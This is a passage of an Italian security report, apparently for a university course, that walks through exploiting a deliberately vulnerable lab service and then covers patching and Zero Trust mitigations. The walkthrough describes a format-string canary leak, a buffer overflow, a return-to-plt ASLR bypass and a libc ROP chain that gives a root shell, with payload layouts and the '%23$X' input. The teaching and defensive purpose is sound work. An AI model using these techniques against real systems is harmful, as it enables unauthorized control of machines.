
Vulnerabile:
```
char* str = "Ciao";
printf(str);
```

Sicuro:
```
char* str = "Ciao";
printf("%s", str);
```

L'output è identico in entrambi i casi ma il primo caso può essere exploitato e il secondo no. Il problema sorge nel caso in cui sia l'utente a inserire la stringa da stampare. In questo caso infatti se l'utente inserisce ad esempio la stringa "Ciao %s" e la `printf` viene utilizzata nel modo vulnerabile, allora la funzione riconoscerà il carattere '%s' inserito dall'utente come sintassi valida di una format string. Questo causa la printf di prelevare dallo stack un parametro (da sostituire al '%s') che in realtà non esiste, perchè l'unico parametro passato è stata la stringa inserita dall'utente. Di conseguenza vengono letti valori arbitrari dello stack.


Fig. 11

In particolare questo exploit permette di leggere tutti i valori dello stack frame precedente. 
Supponendo che in questa figura la funzione `DrawLine` sia la `printf`, si può osservare come la lettura del primo parametro (inesistente) corrisponde ad una lettura della prima variabile locale della funzione `DrawSquare` in figura (o qualsiasi funzione abbia chiamato la printf), e così via i successivi parametri corrispondono a valori situati più in basso nel frame.


Fig. 12

Come si osserva dall'immagine sopra, se si inserisce la stringa '%x' come input (dove x indica la stampa in formato esadecimale) il programma stampa quello che sembra essere un indirizzo di memoria: il programma è vulnerabile alla format string vulnerability.
Questo permette quindi di leggere la memoria dello stack e di conseguenza il valore del Canary, ma dobbiamo sapere dove quest'ultimo è collocato in memoria. Inoltre è importante sapere che il Canary non è generato dal compilatore per ogni funzione ma soltanto per alcune che rispettano alcuni requisiti, come ad esempio l'allocazione di variabili locali e buffer di una certa grandezza. Ciò significa che non è detto che la funzione che chiama la `printf` abbia un Canary che possiamo leggere, ma occorre leggere tutti i valori uno ad uno finchè non si trova un valore del Canary in memoria.
Dopo varie prove con pwntools ho trovato che il primo Canary in memoria è presente dopo 92 bytes ovvero è il 23esimo (92/4=23) parametro di 4 bytes della printf che occorre leggere.


Fig. 13

In figura ho inserito la stringa '%23$X' come input dove: 23 indica che voglio leggere il 23esimo parametro in memoria e X indica che il parametro è un unsigned hexadecimal integer ovvero un intero esadecimale senza segno (che è grande 4 bytes).
Ho riconosciuto che il valore `0x210A0400` è quello corretto perchè gli ultimi 2 bytes del Canary sono sempre 0, come in questo caso. Ho confermato questa tesi riprovando a leggere la stessa locazione di memoria in una nuova esecuzione del programma:


Fig. 14

Il valore è differente dal precedente ma gli ultimi due bytes sono sempre 0 quindi questo valore è proprio il Canary.

Adesso che ho ottenuto il valore del Canary devo sovrascriverlo assieme al Return Address in modo da reindirizzare l'esecuzione del programma senza farlo terminare. L'idea è la seguente: leggere il valore del Canary tramite format string vulnerability con il primo input e reindirizzare l'esecuzione (sovrascrivendo il Canary col valore ottenuto) tramite Buffer Overflow con il secondo input.



Fig. 15 - exploit.py


Fig. 16

La figura 15 è lo script costruito fin ora per testare il reindirizzamento del programma (che ho chiamato exploit.py) mentre la figura 16 è l'output che esso produce.
Lo script legge il valore del Canary nel primo input e come secondo input manda un payload costituito da 32 'a', il Canary, 12 'b' e infine l'indirizzo del main del programma. Quindi lo scopo è quello di reindirizzare l'esecuzione ad un indirizzo noto, in questo caso quello del main che è visibile all'interno di pwndbg tramite il comando `disass main`.
L'output prodotto raffigura il valore del Canary ottenuto (e anche stampato dal programma stesso) e poi il secondo prompt "Insert stuff here" del programma, perchè ricordiamo che il programma chiede all'utente due volte di inserire l'input. Fin qui tutto nella norma. Subito dopo le varie 'a' però è presente il prompt che ci chiede di inserire un input per la terza volta, comportamento ambiguo del programma. Una volta inserita una semplice 'a' il programma mi chiede per la quarta volta di inserire un input per poi terminare. Questo in realtà è proprio quello che volevo ottenere perchè significa che il reindirizzamento del programma al main è avvenuto con successo. Infatti dopo aver dato come input il secondo payload (contenente il BOF) il programma torna indietro al main e mi chiede nuovamente di inserire per due volte un input.

##### ROP Chain crafting & libc

Il prossimo passo è quello di sfruttare il reindirizzamento dell'esecuzione del programma per riuscire ad ottenere una shell.
Per fare questo ho utilizzato una tecnica chiamata ROP che significa Return Oriented Programming. In sintesi, è una tecnica che permette di reindirizzare il programma su una serie di gadget con vari scopi, ad esempio ottenere una shell. Un gadget è costituito da una o più istruzioni assembly all'interno del programma. I gadget intermedi finiscono sempre con una istruzione `ret` in modo da trasferire l'esecuzione al prossimo gadget della catena. 
Sebbene questa tecnica sembri infallibile, ha dei punti deboli. Le istruzioni necessarie per ottenere una shell non sempre sono presenti all'interno dell'eseguibile. Infatti in questo caso l'eseguibile contiene troppe poche istruzioni e ne mancano alcune essenziali per poter aprire una shell. E' per questo motivo che in molti casi si utilizza l'eseguibile della libreria libc invece che del programma. L'ELF della libc contiene moltissimo codice e di conseguenza molte istruzioni da potere usare, ed è inoltre una libreria necessaria per qualsiasi programma scritto in C perchè contiene l'implementazione di un gran numero di funzioni base (come ad esempio la `printf`).

Per far funzionare l'exploit ho però bisogno dell'esatta versione della libc usata dal server remoto. Questo perchè se i due file ELF non fossero identici allora la posizione delle istruzioni all'interno dei due file cambierebbe (anche di poco) e qualsiasi riferimento a indirizzi di memoria sarebbe errato e risulterebbe nel crash del programma.


Fig. 17

In figura è presente l'output ricevuto dopo una richiesta `HEAD` alla porta 8080 del server. Come detto nella sezione "Demo", oltre al servizio vulnerabile nella porta 5555 è presente un server php "dimenticato" nella porta 8080. Anche se il file index.php all'interno del server è vuoto (come si può vedere accedendovi tramite browser) e quindi non è visibile alcuna pagina web, questa svista permette ad un attaccante, me in questa dimostrazione, di ottenere informazioni importanti.
L'header `X-Powered-By: PHP/7.4.3-4ubuntu2.28` (abilitato di default da PHP) indica la versione PHP che il server sta usando. Dopo qualche ricerca sul web sono riuscito a trovare delle informazioni inerenti al package php di Ubuntu.


Fig. 18 - 
https://www.ubuntuupdates.org/package/core/focal/main/security/php7.4

Come si osserva nell'immagine la versione del package di PHP '7.4.3-ubuntu2.28' (la stessa in uso dal server) è rilasciata per la versione 20.04 di Ubuntu. Ciò significa che con molte probabilità conosco la versione Ubuntu del server remoto.
Dopo altre ricerche ho trovato questa tabella che associa le versioni di varie distribuzioni Linux alle corrispondenti versioni delle libc utilizzate:


Fig. 19 - 
https://gist.github.com/richardlau/6a01d7829cc33ddab35269dacc127680

Grazie a questa scoperta sono riuscito a risalire, tramite la versione di Ubuntu, alla esatta versione della libc utilizzata dal server, che era il mio obiettivo. 
Questo dimostra come anche un piccolo leak di informazioni apparentemente innocuo possa aumentare il rischio di subire attacchi malevoli. Una volta in possesso di questa informazione mi sono concentrato nuovamente sull'exploit.

Ora che sono in grado di reindirizzare l'esecuzione del programma a mio piacimento devo trovare un modo per servirmi di questo per ottenere una shell. 
Per ottenere una shell è necessario eseguire la systemcall `execve` con `'/bin/sh'` come parametro. Nel caso di architettura i386 32 bit la convenzione per effettuare tale chiamata di sistema è la seguente:
- eax ← `0x0b`
- ebx ← `'/bin/sh'`
- ecx ← `NULL`
- edx ← `NULL`

L'idea per ottenere una shell tramite ROP è la seguente: ho bisogno di gadget che mi permettano di riempire (tramite operazioni `pop` dallo stack) i registri come indicato sopra e infine il gadget `int 0x80` che genera una interrupt ed effettua una systemcall. 
L'istruzione `int 0x80` necessita di trovare il numero della systemcall che si vuole chiamare all'interno del registro eax (0x0b in questo caso ovvero 11 per la `execve`). Subito dopo viene quindi eseguita la `execve` che esegue qualsiasi eseguibile dato un determinato path come parametro. Essa può essere utilizzata con un numero variabile di parametri e li preleva in ordine da ebx, ecx e edx. Essendo che ho specificato soltanto un parametro (il path`'/bin/sh'`) gli altri due registri devono contenere il valore `NULL`.

Ho utilizzato ropper e pwndbg per analizzare l'ELF della libc e cercare i gadget richiesti. 


Fig. 20

Tramite il seguente comando ho cercato all'interno del file `libc-2.31.so` tutte le istruzioni del tipo `pop eax; ret`. Ropper ne ha trovate 4 quindi posso utilizzarne una qualsiasi tra loro.
Con il medesimo procedimento ho trovato tutti gli altri gadget all'interno della libc.

L'unica cosa che rimane da fare è trovare la posizione della stringa `'/bin/sh'` al'interno della libc. Per trovare tale stringa ho utilizzato il comando `strings`:


Fig. 21

Come si osserva dall'immagine la stringa si trova all'indirizzo `0x0018c363` della libc. Ma questo indirizzo non può essere utilizzato a run-time per accedere a tale stringa, perchè non rappresenta la sua posizione effettiva in memoria. Più che un indirizzo, tale numero è un offset rispetto a dove la libc è stata mappata in memoria. In particolare, ad ogni esecuzione del programma la libreria libc viene mappata ad un indirizzo di memoria diverso. Questa è una protezione chiamata ASLR, e se voglio poter utilizzare i gadget che ho trovato all'interno della libc devo conoscere a run-time l'indirizzo a cui la libreria è stata mappata in memoria.

##### Return-to-plt & ASLR bypass

Come visto, conoscere l'esatta versione della libc usata dal server remoto non basta, rimane ancora un ostacolo da superare: l'ASLR. L'Address Space Layout Randomization è una protezione che il kernel applica ad ogni processo quando il suo eseguibile viene eseguito. Il suo scopo è quello di randomizzare a run-time (come il PIE) varie parti dell'ELF, e ciò include le librerie. Infatti grazie a questa protezione la libc viene mappata ad un indirizzo diverso in memoria ad ogni esecuzione, o meglio viene generato un offset casuale ad ogni esecuzione.
E' importante notare che l'ASLR è una protezione specifica del kernel (ed abilitata di default) ed è per questo che non compare tramite il comando `checksec`, il quale mostra esclusivamente le protezioni legate all'eseguibile.

E' possibile visionare l'indirizzo a cui è stata mappata la libreria a run-time tramite il comando `info proc mappings` su pwngdb dopo aver lanciato lo script che esegue il processo ed essersi collegati a tale processo tramite `gdb attach <pid>` dove il `pid` è quello stampato da pwntools:


Fig. 22 - pwndbg

Si osserva dall'output che il file `libc-2.31.so` è mappato nello spazio di indirizzamento del programma all'indirizzo `0xec8bb000`, quindi le istruzioni della libc partono da quell'indirizzo. Se ripetiamo il check in una nuova esecuzione, l'indirizzo è sempre diverso.
Per ottenere l'indirizzo effettivo della stringa `'/bin/sh'` occorre sommare l'indirizzo base o base address della libc (Fig. 22) all'offset a cui si trova la stringa `'/bin/sh'` (Fig. 21), ottenendo in questo caso `0xec8bb000 + 0x0018c363 = 0xeca47363`.


Fig. 23 - pwndbg

La figura sopra raffigura l'output del comando `x` (durante la stessa esecuzione) che esamina la locazione di memoria `0xeca47363` che rivela proprio la stringa `'/bin/sh'`.

Quindi per bypassare l'ASLR è necessario trovare a run-time l'indirizzo a cui è stata mappata la libc. Se lo si conosce basta sommarlo all'offset di qualsiasi istruzione della libreria per ottenere l'indirizzo effettivo in memoria e poterla eseguire.

Per ottenere un leak di un indirizzo di una funzione della libc a run-time ho utilizzato una tecnica chiamata return-to-plt. Questa tecnica sfrutta le tabelle GOT e PLT all'interno dell'ELF utilizzate per ottenere linking dinamico delle librerie. 

Sotto segue una breve spiegazione sul loro funzionamento.
Quando una funzione di una libreria dinamica (come la libc) viene chiamata all'interno di un programma, dopo l'istruzione `call` non è presente l'indirizzo della funzione in memoria ma compare un altro indirizzo. In particolare analizzando con gdb l'istruzione è la seguente: `call 0x80490e0 <puts@plt>`, dove il tag dopo l'indirizzo è aggiunto da gdb stesso per dirci a cosa corrisponde quell'indirizzo in memoria. Infatti la procedura chiamata non è direttamente la `puts` ma una procedura situata all'interno della tabella PLT o Procedure Linkage Table. Questa procedura trova l'indirizzo della entry corrispondente nella tabella GOT se è la prima volta che la funzione `puts` viene chiamata, oppure salta a quell'indirizzo se già è presente. La GOT o Global Offset Table è una grande tabella contenente tutti gli indirizzi effettivi delle funzioni della libc in memoria. Tale tabella viene compilata a run-time man mano che le funzioni della libc vengono chiamate.

Pwntools permette di leggere a run-time l'indirizzo di ogni entry delle tabelle PLT e GOT. Sono quindi riuscito a costruire un payload che è così composto:
`32 'a' + Canary + 12 'a' + puts@plt + main + puts@got`, dove:
- la prima parte è identica al payload costruito in precedenza
- `puts@plt` è l'indirizzo della entry `puts` nella PLT
- `main` è l'indirizzo del `main` del programma
- `puts@got` è l'indirizzo della entry `puts` nella GOT

La prima cosa che accade quando il programma riceve questo payload è il BOF che ho spiegato prima nel report. L'esecuzione del programma viene in questo caso reindirizzata all'indirizzo `puts@plt`. A tale indirizzo è presente la procedura che si occupa di recuperare l'indirizzo della entry corrispondente della tabella GOT (supponendo che sia la prima volta che la puts viene chiamata) e subito dopo la `puts` viene chiamata. Tale funzione si aspetta di trovare un parametro subito dopo l'indirizzo di ritorno sullo stack che in questo caso è l'indirizzo del main all'interno del payload. Dopo tale indirizzo sullo stack è presente l'indirizzo `puts@got` che funge da parametro della puts precedentemente chiamata. Quindi il payload causa al programma di esegurie la funzione `puts` con argomento l'indirizzo in memoria della stessa funzione `puts` e fatto ciò il programma viene reindirizzato a eseguire nuovamente il `main`, in pratica l'esecuzione del programma viene ripetuta. L'entry della tabella GOT relativa alla `puts` contenente il suo indirizzo è sicuramente presente perchè eseguo la funzione proprio per stampare tale indirizzo. La procedura che recupera l'indirizzo della `puts` è quindi già stata chiamata e di conseguenza la entry della GOT è presente.
Ottenuto l'indirizzo della `puts` in memoria mi basta sottrarlo all'indirizzo (o offset) di tale funzione all'interno della libc (esempio in Fig. 21.) per ottenere il base address a cui è mappata la libreria (vedi Fig. 22).


Fig. 24 - exploit.py

Il pezzo di codice raffigurato sopra implementa esattamente quello descritto fin ora. In particolare, la variabile `leak` contiene l'indirizzo della `puts` ottenuto e viene successivamente usato per calcolare il base address della libc come spiegato nel paragrafo sovrastante e tale valore salvato nella variabile `libc_a` in riga 75.


Fig. 25 - exploit.py

Il base address della libc ottenuto, contenuto nella variabile `libc_a`, viene quindi sommato agli indirizzi (o offset) dei gadget trovati in precedenza tramite ropper.


Fig. 26 - exploit.py

Quest'ultima parte dell'exploit si occupa di costruire e inviare il payload finale composto dalla ROP chain costruita fin ora e che mi permetterà di ottenere una shell. In particolare nelle righe 88 e 89 viene calcolato l'indirzzo in memoria della stringa `'/bin/sh'` e salvato nella variabile `bin_sh`.
A questo punto ho eseguito lo script completo.



Fig. 27

In figura appare parte dell'output dello script exploit.py eseguito sul server remoto. Come si osserva subito dopo la serie di 'a' (che fanno parte dei primi caratteri del payload inviato) ottengo una remote shell sul server. Digito quindi il comando `ls` che mi mostra tutti i file presenti nella directory corrente e tramite il comando `whoami` mi accorgo di avere il massimo grado di privilegi, ho quindi pieno controllo sulla macchina remota.

</br>
</br>


## 7. Mitigazione e Prevenzione 

### Patching del Software

Analizzando il source code del servizio del server "echo" ovvero i file main.c e utils.c spiccano subito delle problematiche.


Fig. 28 - main.c

La funzione `start_echo` all'interno del file main.c alloca un buffer di una certa grandezza e chiama due funzioni: `get_input` e `print_output`.
Queste funzioni fungono da wrapper alle operazioni di I/O e appartengono ad una libreria utilizzata dal server che in questo caso rappresenta il componente vulnerabile del sistema. 


Fig. 29 - utils.c

Come si evince dalla figura, il Buffer Overflow è causato dalla chiamata alla funzione `read` all'interno della funzione `get_input` che invece di specificare la corretta grandezza del buffer ovvero 32 bytes (vedi Fig. 28) specifica una grandezza di 1024 bytes che è molto più grande della grandezza del buffer allocato. Questo causa appunto un overflow e rappresenta la prima vulnerabilità del programma.
La seconda nasce invece dall'errato utilizzo della funzione  `printf` nella riga 15, all'interno della funzione `print_output`. Proprio questa riga di codice ha causato il leak del Canary permettendomi di leggere aree di memoria arbitraria.

Il BOF si risolve inserendo la corretta grandezza all'interno della `read` ovvero 31 bytes (in questo modo la stringa all'interno del buffer è sicuramente null-terminated dalla `memset`).
Per risolvere la Format String Vulnerability invece basta utilizzare la corretta sintassi nella chiamata alla `printf` come già spiegato in precedenza nel report.

### Zero Trust

Ulteriori precauzioni possono essere prese seguendo alcuni principi di Zero Trust. In questo paragrafo spiegherò in cosa consiste l'architettura Zero Trust (o ZTA) e come implementarla nelle esemplificazioni presentate.

Invece di concentrarsi nel difendere il perimetro delle rete (tramite ad esempio firewalls) l'architettura Zero Trust o ZTA si basa sul fatto di non dare per scontato che le connessioni e gli accessi a risorse provenienti dall'**interno della rete** siano sicure. Per fare questo, la ZTA implementa varie politiche e controlli e segmentazione della rete usando la filosofia di pensiero che ci sia già un hacker all'interno della rete. 

#### I tre principi di zero-trust

La ZTA si basa su 3 principi:
- 1. **Monitoraggio e convalida continui**: le connessioni vengono continuamente autorizzate tramite autenticazione e il traffico di rete viene continuamente monitorato.
- 2. **Il principio del privilegio minimo**: di default ogni nodo e utente della rete ha solo i privilegi per svolgere la sua determinata task o accedere ad una determinata risorsa, tutti gli altri privilegi vengono negati.
- 3. **Supposizione di una violazione**: supposta a priori una qualche violazione della rete, quest'ultima viene segmentata per contenere tale attacco (es. da una VLAN non si possono vedere/accedere alle altre).

#### I cinque pilastri di zero-trust

La ZTA di CISA delinea cinque pilastri su cui le organizzazioni si basano per implementarla:
- **Identità**: gli utenti sono sempre autenticati e possono accedere solo alle risorse approvate.
- **Dispositivi**: ogni dispositivo connesso in rete deve essere conforme alle politiche zero-trust.
- **Reti**: la rete è ulteriormente frammentata per impedire movimenti laterali al suo interno e il traffico può essere crittografato.
- **Applicazioni e workload**: anche le API interne sono soggette ad autorizzazioni dinamiche e sono monitorate.
- **Dati**: i dati sono monitorati, divisi per politiche di permessi e protetti tramite crittografia.


#### Applicazione di ZTA alle Demo

La prima modifica da fare al servizio remoto in C riguarda i permessi. Essendo un servizio che si interfaccia con degli utenti remoti, non ha bisogno di essere eseguito con permessi di root (seguendo il 2° principio della ZTA). Creando un utente apposito per il programma eseguito con dei permessi ristretti e localizzati esclusivamente alle risorse strettamente utilizzate da esso, anche se un attacco come quello spiegato andasse a segno i danni sarebbero molto più limitati. L'attaccante infatti potrebbe accedere esclusivamente ai file legati al servizio e tutte le operazioni che richiedono permessi di root come leggere file di sistema o disabilitare firewall sarebbero negate.
Per quanto riguarda la rete invece si possono seguire i principi 1 e 3 della ZTA quindi analizzare continuamente il traffico di rete e frammentare la rete in modo da contenere un attacco ad altri nodi e rilevare immediatamente qualunque anomalia nel traffico di rete. Così facendo infatti l'attacco sarebbe limitato soltanto alla VLAN di cui fa parte il server remoto. L'attaccante non avrebbe accesso o visibilità delle macchine al di fuori di tale frammento della rete e quindi il resto della rete rimarrebbe completamente protetto. 

</br>
</br>


## 8. Conclusione 

In questo report ho presentato due esempi di vulnerabilità di tipo "A06:2021-Vulnerable and Outdated Components", ho creato due esemplificazioni di esse e ho descritto come attuare degli attacchi sfruttando tali vulnerabilità. Ho inoltre discusso come è possibile risolvere gli errori nel codice che causano le vulnerabilità e come mitigare gli effetti di un attacco tramite architettura Zero Trust.
La chiave per uno sviluppo di software più sicuro sta nel seguire semplici regole e best practices e nel dare importanza ad ogni singolo componente utilizzato, grande o piccolo che sia. Questo significa analizzare il codice di ogni componente o libreria utilizzati e assicurarsi che non contenga vulnerabilità o sia obsoleto. 

Per costruire questa relazione ho utilizzato le competenze su alcuni argomenti trattati acquisite durante il corso "Cyberchallenge" dell'università e sviluppate partecipando alla gara nazionale. Una ricerca approfondita su argomenti che conoscevo meno mi ha inoltre permesso di analizzare problemi nuovi e trovare soluzioni.

La continua "lotta" tra tecniche di difesa e attacco di sistemi è in continua evoluzione e quando avanza una l'altra segue di conseguenza. Creare una difesa impenetrabile nel tempo è quasi impossibile, ed è per questo che la strategia da intraprendere dovrebbe essere quella di utilizzare una architettura a "cipolla" ovvero applicare vari strati di difesa indipendenti tra loro in modo da rendere la vita di un attaccante il più difficile possibile e applicare politiche, come la ZTA, con lo scopo di monitorare costantemente i sistemi e arginare al massimo le conseguenze di un attacco.

</br>
</br>


## 9. Fonti


https://www.cloudflare.com/learning/security/threats/owasp-top-10/: What is OWASP?

https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/: OWASP A06-2021

https://svn.apache.org/repos/asf/ibatis/java/ibatis-3/trunk/doc/en/OGNL-LanguageGuide.pdf: OGNL Language Guide

https://nvd.nist.gov/vuln/detail/cve-2017-5638: CVE-2017-5638

https://blog.talosintelligence.com/apache-0-day-exploited/: New Apache Struts2 0-day Under Attack

https://www.blackduck.com/blog/cve-2017-5638-apache-struts-vulnerability-explained.html: What is CVE-2017-5638?

https://liberty-shell.com/sec/sysadmin/struts2-setup.html: Setup a vulnerable instance of Struts 2

https://www.ibm.com/it-it/topics/zero-trust: Cos'è l'approccio zero trust
